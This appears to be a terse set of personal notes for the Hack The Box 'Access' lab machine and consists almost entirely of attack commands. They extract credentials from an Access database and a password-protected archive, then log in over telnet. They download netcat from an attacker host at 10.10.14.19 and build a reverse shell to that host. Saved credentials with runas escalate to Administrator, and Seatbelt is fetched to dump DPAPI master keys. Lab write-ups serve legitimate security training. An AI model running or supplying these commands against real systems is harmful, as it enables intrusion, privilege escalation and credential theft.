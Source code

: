 ```
mdb-tables -1  backup.mdb | grep user

mdb-export backup.mdb auth_user 

7z x -p'access4u@security' ac.zip 

cat  Access\ Control.mbox

telnet access.htb 
security
password

net users
net user administrator

cd Desktop

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.14.19:8000/nc.exe', 'nc.exe')"

echo c:\Users\security\Desktop\nc.exe 10.10.14.19 6789 -e cmd.exe > reverse.ba

#Runas can be exploited if net user Administrator have "No Password Required Option" enabled
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\security\Desktop\reverse.bat" 

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.14.19:8000/SeatbeltNet3.5AnyCPU.exe', 'sb.exe')"

sb.exe MasterKeys
sb.exe user

```
https://github.com/carlospolop/winPE/blob/master/binaries/seatbelt/SeatbeltNet3.5AnyCPU.exe
https://blog.harmj0y.net/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/
https://www.hackthebox.com/achievement/machine/336799/156
